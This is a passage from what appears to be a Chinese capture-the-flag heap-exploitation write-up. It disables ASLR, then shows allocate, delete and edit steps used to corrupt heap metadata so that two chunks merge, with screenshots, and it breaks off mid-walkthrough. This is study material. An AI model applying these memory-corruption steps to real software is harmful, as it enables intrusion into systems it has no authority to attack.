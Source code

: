 ## 详细流程

为了方便，我们先关闭ASLR

```plain
su
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

首先申请几个堆块，最后一个起保护作用。

```plain
add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
```

我们的目的是合并chunk1和chunk8

```plain
delete(1)
delete(0)
```

[![](assets/1701612416-dd64db3b90a9c7f2c2dd3e3198530d65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170046-1a9c5fee-14c9-1.png)

```plain
edit(0,'\x50')
```

[![](assets/1701612416-1f8a07d22d57cd8a3f4525378f8f1a17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170100-22d24cd2-14c9-1.png)  
这时还没有在0x555555757050处伪造成功
